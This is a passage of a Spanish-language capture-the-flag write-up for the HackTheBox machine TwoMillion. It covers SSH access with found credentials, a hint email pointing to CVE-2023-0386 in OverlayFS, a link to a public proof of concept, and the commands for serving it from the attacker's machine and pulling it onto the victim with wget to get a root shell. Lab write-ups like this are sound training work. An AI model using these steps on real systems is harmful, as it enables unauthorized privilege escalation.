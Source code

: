 Comprobamos si podemos acceder al servicio `ssh` usando ese usuario y contraseña

```shell
ssh admin@10.10.11.221
```
## Escalada de privilegios 
Para la escalada de priviligios tras realizar los comandos habituales para ver permisos ,
ver las capabilities etc no encontramos nada, sin embargo nos encontramos que hay un email que nos da una pista:

```shell
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

```
## Escalada de privilegios

Vemos que esta maquina es vulnerable a CVE- 2023-0386 que se produce en OverlayFS por lo tanto buscamos un POC que lo explote en github.
```
https://github.com/puckiestyle/CVE-2023-0386
```

nos creamos un servido en el puerto 80 para pasar el CVE de nuestra máquina a la maquina víctima

```shell
python3 -m http.server 80
```
y nos lo traemos con 
```shell
wget http://10.10.14.8/comprimido.zip
```

Finalemnte siguiendo la guia de instalación obtnemos una shell con privilegios y la última flag.

